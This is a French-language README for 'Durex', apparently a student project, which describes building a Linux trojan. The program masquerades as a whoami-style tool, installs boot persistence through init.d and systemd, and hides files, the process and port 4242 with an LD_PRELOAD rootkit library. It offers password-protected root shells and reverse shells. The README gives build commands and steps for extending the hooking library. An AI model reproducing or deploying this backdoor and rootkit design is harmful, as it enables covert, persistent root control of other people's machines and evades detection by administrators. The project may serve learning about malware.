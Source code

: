 # DUREX

Ce projet a pour but de créer un simple trojan !

## INFOS

Durex est un binaire qui affichera l'utilisateur actuellement connecté.
NEANMOINS, en fond, il aura fait bieeeeen plus de choses, uniquement avec les droits root :
* Durex créera un autre programme dans /bin qui se nommera également Durex.
* Durex créera les fichiers Durex, Durex.conf et Durex.service, dans les répertoires /etc/init.d, /etc/systemd et /lib/systemd/system, respectivement, permetant au programme nouvellement créer de s'excuter au démarrage de la machine cible.
* Ce même programme sera lancé en tâche de fond à la façon d’un daemon.
* Une seule instance du daemon ne peut être lancée.

NEANMOINS, au moment de l'installation Durex modifiera sa copie pour exécuter d'autre fonction dont voici l'exécution:
* Le daemon créera une librairie personnalisé dans le but de rendre le binaire et ses actions indétectable. Nommée Durex.so la librairie s'installera dans /usr/local/lib et s'incrira dans le fichier /etc/ld.so.preload.
Le seul moyen de pouvoir redétecter le binaire sera de supprimer ce dernier fichier. J'ai intentionnelement laissé la possibilité de le faire pour ce projet.
* Le daemon écoutera le port 4242.
* Il propose une connexion à 3 clients en simultané.
* Lors de la connexion d’un client sur le daemon, un mot de passe est demandé.
Un minimum de sécurité sur le mot de passe est assuré. Un exécutable est a disposition pour générer l'hexadécimal du mot de passe que vous voulez mettre en place (voir plus bas).
* Lorsque la connexion est établie avec un client, le daemon propose de lancer un shell avec les droits root, ou un reverse shell toujours avec les droits root.

BONUS:
* Chaque action d'un utilisateur est repertorié dans le fichier /var/log/Durex.log.
* Optimisation dans le but de rendre tous les fichiers créer par l'exécutable indétectable.
* Optimisation dans le but de camoufler l'ouverture du port 4242.
* Optmisation dans le but de rendre l'exécutabel compliqué à debugger.

### Le binaire a été testé sur une Debian 9.3.0 64bits.

## INSTALLATION
### Durex

```
make && ./Durex
```

## MODIFICATION
### Password generation

```
make pass
./pass [mot_de_passe]
```

Utiliser ensuite votre meilleur éditeur pour modifier le fichier **server.c** :
```
static void			serverLogging(u_char *buff, int size, t_cl *client)
{
...
  if (myustrcmp(buff, (u_char []){ 201, 121, 30, 74, 0 }) == 3) {
...
}
```

##### Exemples

```
root@debian:/home/XXX/42/durex# make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
root@debian:/home/XXX/42/durex# ./pass toto
toto (4): 191 248 92 67 189 94 197 184
root@debian:/home/XXX/42/durex# ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```

### Ajout de fonction dans la libraire

* Créer votre fichier et compiler le
```
gcc -Wall -fPIC -shared -o ./Durex.so [fichier.c] -ldl
```
* Si tout se passe bien, créer le binaire hex et copier l'hexadecimal de votre fichier
```
make hex && ./hex [fichier.c]
```
* AJouter l'hexa affiché dans le fichier includes/main.h et prenant exemple sur ceux deja mis en place :
```
# define DUREX_XSTAT_FILE		"/tmp/xstat.c"
# define DUREX_XSTAT_SRC		"\x23\x64\x65\x66..."
```
* Ajouter enfin vos #define dans le fichier /srcs/library.c en suivant la logique deja mise en place :
```
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC };
   ...
}
```
* Redemarez l'exécutable en prenant soin de faire les bonnes manipulations (le binaire est ineffaçable btw !)
```
make rt
```
* Votre fonction est maintenant intégré au binaire

#### ATTENTION
Toute fonction intégrée à la librairie sera exécuter sur tous les binaires utilisant cette même fonction.
Par exemple:
La librairie actuelle modifie le comportement de l'appel système xstat(...), du coup tous les binaires utilisant xstat (ls, find, grep, etc.) utiliseront votre fonction.

# AUTEUR
* gbourgeo
